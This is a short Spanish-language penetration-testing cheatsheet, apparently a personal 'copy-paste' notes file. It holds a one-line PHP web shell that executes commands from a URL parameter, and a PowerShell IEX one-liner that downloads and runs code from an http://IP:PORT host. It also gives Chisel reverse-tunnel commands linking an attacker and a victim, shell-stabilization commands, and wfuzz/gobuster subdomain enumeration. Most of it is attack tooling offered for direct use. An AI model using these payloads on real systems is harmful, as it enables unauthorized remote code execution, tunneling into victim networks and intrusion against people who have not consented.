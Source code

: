 # Cheatsheet
Cosas copypaste

# Reverse Shells

Web Shell PHP
```
<?php system($_GET[cmd]);?>
```

# Powershell

Descargar binarios
```
powershell IEX(New-Object Net.WebClient).downloadString('http://IP:PORT/binario.binario')
```

# PostExplotacion

## Chisel

Atacante
```
./chisel server --reverse -p ATACKER_PORT
```

Víctima
```
./chisel client ATTACKER_IP:ATTACKER_PORT R:VICTIM_IP:VICTIM_PORT
```

## Mejorar Shell

Linux
```
script /dev/null -c bash
```
```
stty raw -echo ;fg
```
```
reset xterm
```
```
export TERM=xterm
```
```
export SHELL=bash
```

# Enumeracion

## Directory Listing & subdomain discovering

wfuzz

```
wfuzz -c --hc=404 -t 200 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.dominio.ext" url
```
Gobuster

```
gobuster vhost -u url -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```


